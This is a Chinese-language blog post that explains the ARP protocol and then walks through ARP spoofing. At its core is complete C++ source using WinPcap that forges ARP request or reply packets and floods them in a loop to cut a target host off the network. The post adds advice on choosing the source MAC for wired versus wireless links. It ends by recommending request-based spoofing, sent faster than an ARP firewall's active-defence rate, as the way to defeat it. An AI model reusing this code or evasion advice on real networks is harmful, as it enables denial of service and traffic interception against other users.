



参考资料：

1. [交换网络中的嗅探和ARP欺骗](http://www.xfocus.net/articles/200204/377.html)
2. [ARP欺骗 C++实现](http://www.cppblog.com/gezidan/archive/2011/08/19/153843.html)
3. [使用ARP协议获取局域网内活动主机物理地址](http://www.tup.com.cn/Resource/tsyz/026935-01.pdf)
4. [Mac地址和字符串之间的转换](http://blog.csdn.net/wuzhijie/article/details/6626417)
5. 《TCP/IP详解：卷1》

在了解arp欺骗之前需要先对arp协议有一个大致的了解。

arp协议即地址解析协议，它是一个根据IP地址获取物理地址的一个协议。当一台主机把以太网数据帧发送到位于同一个局域网上的另一台主机时，是根据48bit的物理地址确定目的接口的，而主机之所以能够获取目的主机的物理地址就是因为arp协议。

下面先举一个经典例子(来自《TCP/IP详解》).


在任何时刻我们敲入下面形式的命令：  
`ftp bsdi`  
都会进行以下这些步骤。这些步骤的序号如上图所示。

1. 应用程序FTP客户端调用函数gethostbyname(3)把主机名（bsdi）转换成32bit的IP地址。
2. FTP客户端请求TCP用得到的IP地址建立连接。
3. TCP发送一个连接请求分段到远程的主机，即用上述IP地址发送一份IP数据报。
4. 如果目的主机在本地网络上，那么IP数据报可以直接送到目的主机上。如果目的主机在一个远程网络上，那么就通过IP选路函数来确定位与本地网络上的下一站路由器地址，并让它转发IP数据报。在这两种情况下，IP数据报都是被送到位与本地网络上的一台主机或路由器。
5. 假定是一个以太网，那么发送端主机必须把32bit的IP地址变换成48bit的以太网地址。从逻辑Internet地址到对应的物理硬件地址需要进行翻译，这就是ARP的功能。
6. ARP发送一份称作ARP请求的以太网数据帧给以太网上的每一个主机。这个过程称作广播，如上图中的虚线所示。ARP请求数据帧包含目的主机的IP地址（主机名为bsdi），其意思是“如果你是这个IP地址的拥有者，请回答你的硬件地址。”
7. 目的主机的ARP层收到这份广播报文后，识别出这是发送端在询问它的IP地址，于是发送一个ARP应答。这个ARP应答包含IP地址及对应的硬件地址。
8. 收到ARP应答后，使ARP进行请求——应答交换的IP数据报现在就可以传送了。
9. 发送IP数据报到目的主机。

在ARP背后有一个基本概念，那就是网络接口有一个硬件地址（一个48bit的值，标识不同的以太网或是令牌环网络接口）。在硬件层次上进行的数据帧交换必须有正确的接口地址。但是，TCP/IP有自己的地址：32bit的IP地址。知道主机的IP地址并不能让内核发送一帧数据给主机。内核（如以太网驱动程序）必须知道目的端的硬件地址才能发送数据。ARP的功能就是在32bit的IP地址和采用不同网络技术的硬件地址之间提供动态映射。

下面我再举一个我自认为要相对简单通俗的例子来说明一下ARP协议。


如上图所示。这是一个简单的局域网，最上面是网关，与外界网络相连，而与网关相连的主机有三个，这三台主机访问外界网络的话必须要经过网关。这里网关假设为现在最常见的路由器。

关于以上四个设备的信息如下（各个地址为假设，不代表现实情况）：

- 网关的IP是：192.168.1.1，MAC地址是：00-00-00-00-00-00
- A主机的IP是：192.168.1.101，MAC地址是：00-00-00-00-00-01
- B主机的IP是：192.168.1.102，MAC地址是：00-00-00-00-00-02
- C主机的IP是：192.168.1.103，MAC地址是：00-00-00-00-00-03

当A主机连上路由器并访问外界网络时，主机A会先发送一个广播请求包：**网关IP是192.168.1.1的MAC地址是多少？我的IP是：192.168.1.101，我的MAC地址是：00-00-00-00-00-01**。当网关得到这个广播的时候，会更新自己的ARP缓存表，将IP地址：192.168.1.101与MAC地址：00-00-00-00-00-01关联起来。这个表存储着各个主机的IP与MAC地址的映射关系，一般情况下这个表是动态更新的。

网关在接收到请求包后，会发出应答包：**我的IP是：192.168.1.1，我的MAC地址是：00-00-00-00-00-00**。主机A在接收到网关的应答包后，会更新自己的ARP缓存表，这个表的作用和网关的缓存表功能一样，都是记录下IP地址和MAC地址的对应关系。

这样，主机A就得知了网关的MAC地址，而网关也得知了主机A的MAC地址，这样主机A和网关就可以进行通讯了。这里注意，在网络通讯中，必须要得知对方正确的MAC地址才能够正常的进行通讯，单单得知IP地址是不行的。这就好比生活中我们只知道对方的姓名（IP地址）是无法进行通讯的，必须要得知对方的电话号码（MAC地址）才能够通讯一样。

现在再来假设局域网中两台主机之间需要通讯。这里假设主机B要和主机C进行通讯。

主机B会先向网关发送一个广播请求包：**主机IP是：192.168.1.103的MAC地址是多少？我的IP是：192.168.1.102，我的MAC地址是：00-00-00-00-00-02**。因为这个请求包是广播包，所以局域网中的所有存活主机都会得到这个请求包，而只有IP是：192.168.1.103的主机才会进行应答。假设IP是：192.168.1.103的C主机存活，那么他就会更新自己的ARP缓存表，将IP是：192.168.1.102的B主机与B的MAC地址：00-00-00-00-00-02进行关联。

当主机C收到请求包后，会向主机B发送应答包：**我的IP是：192.168.1.103，我的MAC地址是：00-00-00-00-00-03**。主机B在收到主机C的应答包后，也会更新自己的arp缓存表。

arp缓存表的更新时间一般是20分钟，起始时间从被创建时开始算起。可以使用命令`arp -a`获取到arp缓存表的内容。

根据以上过程，我们可以发现一些端倪。在主机A发送广播包请求获取网关MAC的时候，在可信的网络中，只有网关（192.168.1.1）会进行应答。但是，在特殊情况下，主机B进行了应答，应答包为：**我的IP是：192.168.1.1（网关的IP），我的MAC地址是：00-00-00-00-00-02（主机B的MAC）**，这样主机A在获取到应答包后，就会将arp缓存表内的IP与MAC映射进行更改。这样主机A也就将主机B错误的当作了网关，之后主机A发送数据时将不再是发送到真正的网关，而是发送到主机B。这就是一个**欺骗**过程，主机B欺骗主机A，让主机A误以为主机B是网关。

以上是欺骗过程是基于应答的，即欺骗包是在应答包中完成的。

还有一种情况是基于请求的。比如下述情况。

主机A和网关在进行正常的通讯。这时候，主机B发送了一个请求广播包：**网关IP是：192.168.1.1的MAC是多少？我的IP是：192.168.1.101（主机A的IP），我的MAC地址是：00-00-00-00-00-02（主机B的MAC）**，这时候网关会收到这个请求包，然后会更新自己的arp缓存表，这样网关也就错误的把主机B当成了主机A，从而当再对主机A发送数据时，就发送到了主机B上。而主机A就收不到数据了。该欺骗是在请求包中实现的。

以上的两个欺骗例子都是将MAC地址替换成局域网中真实存在的主机（例子中是主机B），这样的话数据都是发送到主机B，而主机B进行接收的话，就实现了嗅探的目的。假设将MAC地址替换成局域网中不存在的主机，那么数据就会被丢弃。

根据以上arp欺骗的原理，我们就可以自己动手实现一下。通过向局域网中发送我们自己构造的arp请求或是应答包，就可以完成欺骗的目的。在进行动手实现之前，先看下arp包的构造。

下图是ARP数据帧结构：


在Ethernet网上发送该数据帧时，还需要将该数据帧封装到物理帧中，物理帧结构如图：

物理帧头的结构如下：


将上述结构转换成C语言下的结构体为：

```
struct ethernet_head{               //Ethernet网头部，长度为14B
    unsigned char dest_mac[6];      //目标主机Mac地址
    unsigned char source_mac[6];    //源端MAC地址
    unsigned short eh_type;         //Ethernet网类型
};

struct arp_head{                    //Arp头部，长度为46B
    unsigned short hardware_type;   //硬件类型：Ethernet网接口类型为1
    unsigned short protocol_type;   //协议类型：IP协议类型为0x0800
    unsigned char add_len;          //硬件地址长度：MAC地址长度为6B
    unsigned char pro_len;          //协议地址长度：IP地址长度为4B
    unsigned short option;          //操作：Arp请求为1，Arp应答为2
    unsigned char sour_addr[6];     //源MAC地址，发送方的MAC地址
    unsigned long sour_ip;          //源IP地址，发送方的IP地址
    unsigned char dest_addr[6];     //目的MAC，ARP请求中没有意义，响应中为接收方MAC
    unsigned long dest_ip;          //目的IP，ARP请求中为请求解析的IP，ARP响应中为接收方IP
    unsigned char padding[18];      //填充数据，这里全为0
};

typedef struct arp_packet{
    struct ethernet_head eth;       //Ethernet网头部
    struct arp_head arp;            //ARP数据帧头部
}Arp_Packet;
```

明白arp包结构后，就可以实现了。实现代码如下（操作系统win7，编译环境为vs2013，需要使用winpcap函数库）：

```
//arp_struct.h 数据定义头文件

#define HRD_TYPE    0x0001          //硬件类型：Ethernet网接口类型为1
#define PRO_TYPE    0x0800          //协议类型：IP协议类型为0x0800
#define EH_TYPE     0x0806          //Ethernet网类型
#define ARP_REQUEST 0x0001          //arp请求
#define ARP_REPLY   0x0002          //arp应答
#define MAC_LEN     6               //MAC地址长度
#define IP_LEN      4               //IP地址长度


#pragma pack(push,1)                //设置让结构体以一个字节对齐

struct ethernet_head{               //Ethernet网头部，长度为14B
    unsigned char dest_mac[6];        //目标主机Mac地址
    unsigned char source_mac[6];    //源端MAC地址
    unsigned short eh_type;         //Ethernet网类型
};

struct arp_head{                    //Arp头部，长度为46B
    unsigned short hardware_type;   //硬件类型：Ethernet网接口类型为1
    unsigned short protocol_type;   //协议类型：IP协议类型为0x0800
    unsigned char add_len;          //硬件地址长度：MAC地址长度为6B
    unsigned char pro_len;          //协议地址长度：IP地址长度为4B
    unsigned short option;          //操作：Arp请求为1，Arp应答为2
    unsigned char sour_addr[6];     //源MAC地址，发送方的MAC地址
    unsigned long sour_ip;          //源IP地址，发送方的IP地址
    unsigned char dest_addr[6];     //目的MAC，ARP请求中没有意义，响应中为接收方MAC
    unsigned long dest_ip;          //目的IP，ARP请求中为请求解析的IP，ARP响应中为接收方IP
    unsigned char padding[18];      //填充数据，这里全为0
};

typedef struct arp_packet{
    struct ethernet_head eth;       //Ethernet网头部
    struct arp_head arp;            //ARP数据帧头部
}Arp_Packet;

#pragma pack(pop)

//该函数用来填充arp数据帧
void enArpReqPack(Arp_Packet *arp,   //指向arp结构体的指针
    char *chLocalMac,                //源MAC地址
    char *chLocalIp,                 //源IP地址
    char *chDstMac,                  //目的MAC地址
    char *chDstIp,                   //目的IP地址
    bool is_request);                //是否是请求包，为真则为请求包，为假则为应答包

//该函数用来将字符串MAC地址转换成16进制MAC地址。
bool GetMacAddr(unsigned char *chsMac, unsigned char *chdMac);

//该函数用来将字符型数据转换成实际数据
unsigned char charToData(const char ch);
```

```
//main.cpp 程序代码文件

#include <stdio.h>
#include "pcap.h"
#include <Packet32.h>
#include "arp_struct.h"

#pragma warning(disable:4996)


int main(){

    //定义变量
    int i = 0,inum;
    Arp_Packet arp = { 0 };
    pcap_if_t *alldevs, *d;
    pcap_t *adhandle;
    char errbuf[PCAP_ERRBUF_SIZE];
    char szPktBuf[1024];

    //获取所有的网卡接口
    pcap_findalldevs_ex(PCAP_SRC_IF_STRING, NULL, &alldevs, errbuf);

    //显示所有的网卡接口以供选择
    for (d = alldevs; d; d = d->next){
        printf("%d. %s\n", ++i, d->description);
    }

    //选择相应的网卡接口
    printf("Enter the interface number(1-%d):", i);
    scanf("%d", &inum);

    //打开选中的网卡接口
    for (d = alldevs, i = 0; i < inum - 1; i++, d = d->next);
    adhandle = pcap_open(d->name, 65535, PCAP_OPENFLAG_PROMISCUOUS, 1000, NULL, errbuf);

    //填充arp包，这里假设为请求包
    //假设主机X的IP为：192.168.1.101，MAC为：00-00-00-00-00-01
    //我们目的是想让对方断网
    enArpReqPack(&arp,
        "eeeeeeeeeeee",      //源MAC，这里可以设置为假的MAC
        "192.168.1.101",     //源IP，因为欺骗主机X，所以源IP设为主机X的IP
        "ffffffffffff",      //目的MAC，请求的时候要发送广播包，因此是FFFFFFFFFFFF（代表广播）
        "192.168.1.1"        //目的IP，这里设为网关的IP：192.168.1.1
        ,true);              //设为true，表明是请求包

    /*
    //这里假设是应答包
    //同样假设主机X的IP为：192.168.1.101，MAC为：00-00-00-00-00-01
    //假设网关IP为：192.168.1.1，MAC为：00-00-00-00-00-00
    //目的让对方断网
    enArpReqPack(&arp,
    "000000000010",      //源MAC，因为要欺骗对方，所以这里需要使用假的MAC:000000000010
    "192.168.1.1",       //源IP，设为网关的IP：192.168.1.1
    "000000000001",      //目的MAC，因为要欺骗主机X，所以不能设置为主机X的MAC
    "192.168.1.101"      //目的IP，设置为主机X的IP（这个不重要，关键是目的MAC）
    ,false);             //设为false，表明是应答包
    */
    
    //将arp结构体的数据复制到字节数组中，方便发送
    memcpy(szPktBuf, (char*)&arp, sizeof(Arp_Packet));
    
    //pcap_sendpacket(adhandle, (const u_char*)szPktBuf, sizeof(Arp_Packet));

    //使用循环不断的发送arp欺骗包，从而淹没正常的arp请求
    while (true){

        //发送arp数据包
        if (pcap_sendpacket(adhandle, (const u_char*)szPktBuf, sizeof(Arp_Packet)) != 0){
            printf("Error sending the packet:%s\n", pcap_geterr(adhandle));
            return -1;
        }

        //延时
        Sleep(100);
        printf("Send ok\n");
    }

    //扫尾
    pcap_freealldevs(alldevs);
    pcap_close(adhandle);
    return 0;
}


unsigned char charToData(const char ch){
    if (ch > 47 && ch < 58){
        return ch - 48;
    }
    if (ch>64 && ch < 71){
        return ch - 55;
    }
    if (ch>96 && ch < 103){
        return ch - 87;
    }
    return 0;
}

bool GetMacAddr(const char *chsMac, unsigned char *chdMac){
    const char *pTemp = chsMac;
    for (int i = 0; i < 6; i++){
        chdMac[i] = charToData(*pTemp++) * 16;
        chdMac[i] += charToData(*pTemp++);
    }
    return true;
}

void enArpReqPack(Arp_Packet *arp, char *chLocalMac, char *chLocalIp, char *chDstMac, char *chDstIp, bool is_request){

    //初始化arp结构体
    memset(arp, 0, sizeof(Arp_Packet));

    //填充物理帧中目的MAC
    GetMacAddr(chDstMac, arp->eth.dest_mac);

    //填充物理帧中源MAC
    GetMacAddr(chLocalMac, arp->eth.source_mac);

    //填充物理帧中类型
    arp->eth.eh_type = htons(EH_TYPE);

    //填充硬件类型
    arp->arp.hardware_type = htons(HRD_TYPE);

    //填充上层协议类型
    arp->arp.protocol_type = htons(PRO_TYPE);

    //填充arp包的MAC硬件地址长度
    arp->arp.add_len = MAC_LEN;

    //填充arp包的IP地址长度
    arp->arp.pro_len = IP_LEN;

    //填充arp帧源MAC
    GetMacAddr(chLocalMac, arp->arp.sour_addr);

    //填充arp帧源IP
    arp->arp.sour_ip = inet_addr(chLocalIp);

    //填充arp帧目的IP
    arp->arp.dest_ip = inet_addr(chDstIp);

    //是请求包
    if (is_request){

        //填充请求包标识，这里忽略arp帧目的MAC（目的MAC全为0，表示待补充）
        arp->arp.option = htons(ARP_REQUEST);

    }
    //是应答包
    else{

        //填充应答包标识
        arp->arp.option = htons(ARP_REPLY);

        //填充arp帧目的MAC
        GetMacAddr(chDstMac, arp->arp.dest_addr);

    }
}
```

通过合理的设置包的结构就可以成功的进行ARP欺骗，但是需要注意一点，那个源MAC地址的设置非常重要，否则可能会导致欺骗失败。

在基于**请求包**的arp欺骗中，具体来看代码的这个地方：

```
    //我们目的是想让对方断网
    enArpReqPack(&arp,
        "eeeeeeeeeeee",      //源MAC，这里可以设置为假的的MAC
        "192.168.1.101",     //源IP，因为欺骗主机X，所以源IP设为主机X的IP
        "ffffffffffff",      //目的MAC，请求的时候要发送广播包，因此是FFFFFFFFFFFF（代表广播）
        "192.168.1.1"        //目的IP，这里设为网关的IP：192.168.1.1
        ,true);              //设为true，表明是请求包
```

上述代码的第一个参数中，我给的注释是：**源MAC，这里可以设置为假的的MAC**，这个假的MAC地址可以分为三种情况：

1. 欺骗主机的MAC地址；
2. 局域网中除了欺骗主机和被欺骗主机，其他主机的MAC地址；
3. 局域网中不存在主机的MAC地址。

当我们分别处于无线或是有线的情况下的时候，需要根据情况选择相应的MAC地址进行欺骗。

具体来说就是，假设局域网中有两台主机，而这两台主机都通过网线和路由器进行连接上网，那么当我们对另一台主机进行ARP欺骗，设置包结构的时候，那个**源MAC**我们就可以设置成任意的MAC地址（上述情况的1,2,3），只要不是另外一台主机的MAC就行。这样就可以成功的欺骗对方。

而对于无线网络，假设局域网中两台主机都是通过无线连接到无线路由器的，那么当我们想对另一台主机进行ARP欺骗设置包结构的时候，那个源MAC我们必须设置我们主机自身的MAC地址（上述情况1）。其他情况我自身测试都不成功。

而对于有一台主机是有线，另一台主机是无线的情况。假设我们的主机是有线连接，我们要对另一台主机（通过无线连接）进行ARP欺骗，那么我们可以设置源MAC为任意地址（上述情况1,2,3），这样都可以对另一台主机欺骗成功。而假设我们是通过无线进行连接，而另一台主机是通过有线进行连接，那么我们就需要设置源MAC为我们主机的MAC地址（上述情况1）。

总结起来就是，如果我们是无线连接，那么那个源MAC地址就只能设置成我们主机的MAC地址，如果我们是有线连接，那么那个MAC地址就可以设置成任意MAC地址。而为了以防万一，这个MAC地址最好都设置成我们主机的MAC地址。

在基于**应答包**的arp欺骗中，情况似乎略微奇怪一些。看代码的这个地方。

```
    //这里假设是应答包
    //同样假设主机X的IP为：192.168.1.101，MAC为：00-00-00-00-00-01
    //假设网关IP为：192.168.1.1，MAC为：00-00-00-00-00-00
    //目的让对方断网
    enArpReqPack(&arp,
    "000000000010",      //源MAC，因为要欺骗对方，所以这里需要使用假的MAC:000000000010
    "192.168.1.1",       //源IP，设为网关的IP：192.168.1.1
    "000000000001",      //目的MAC，因为要欺骗主机X，所以不能设置为主机X的MAC
    "192.168.1.101"      //目的IP，设置为主机X的IP（这个不重要，关键是目的MAC）
    ,false);             //设为false，表明是应答包
```
假如我们是通过无线连接到网络中，那个源MAC也需要填写成我们自己主机的MAC。在填写成我们自身MAC的时候可以欺骗成功，而不是我们自身主机的MAC的时候就不会欺骗成功。但是无论我们是否把源MAC设置成我们主机的MAC，都会欺骗我们自身，即通过执行命令`arp -a`可以发现我们自身主机的arp缓存表中网关的MAC就是我们欺骗时设置的MAC（我们自己主机的MAC）。

而当我们通过有线连入网络的时候，这个时候那个源MAC也可以填写成任意主机的MAC，但是情况同上，当我们欺骗其他主机的时候，查看我们自身的ARP缓存表可以发现我们自身也被欺骗了。

上述两种欺骗中，有线联网的欺骗和无线联网的欺骗有着区别，而导致这区别的原因暂时还不清楚，如果进行推断的话估计是无线协议限制源MAC必须是我们主机自身的MAC吧。对于基于应答包的欺骗过程中欺骗自身的情况也有些奇怪，想要明白这一点还需要深究。

上述主要针对ARP攻击进行了实现，而既然明白了攻击，大致也就明白了防御的原理。防御的关键就是让IP与MAC地址保持对应。这个可以通过设置主机的ARP缓存表为静态以及设置路由器的ARP缓存表为静态来实现防御。

通过资料了解，一些ARP防火墙的工作原理就是将主机的IP与MAC映射设置成静态的，这样的话就可以防御住基于应答包的ARP攻击，而对于基于请求包的ARP攻击，这类防火墙就无能为力了，毕竟它无法影响到路由器。而一些防火墙是有对基于请求包的ARP攻击的防御能力的，它的实现方法是主动防御，即主动向路由器发送正确的请求包，这样的话，如果ARP请求攻击的频率没有防火墙发送的频率高，那么ARP请求攻击就无法完全对该主机造成威胁。但是实际上，我认为这种所谓的主动防御效果还是不好的。攻击者一旦发现没有效果，就可以很容易的提高发送ARP包的能力，一旦超过防火墙的主动发包的频率设置，防火墙的防御也就失效了。

另外，我测试了一台防火墙（风云防火墙）对ARP攻击的防御能力。

无论是在有线环境下还是无线环境下，当采用基于应答包的ARP攻击攻击另一台主机的时候，防火墙都能够很好的进行防御，而采用基于请求包的ARP攻击攻击另一台主机的时候，一旦攻击频率大于防火墙主动防御设置的频率（风云防火墙默认频率是1）的时候，防火墙就不再起作用了。

因此，一般来说，要进行ARP攻击的话，最好还是采用基于请求包的ARP攻击。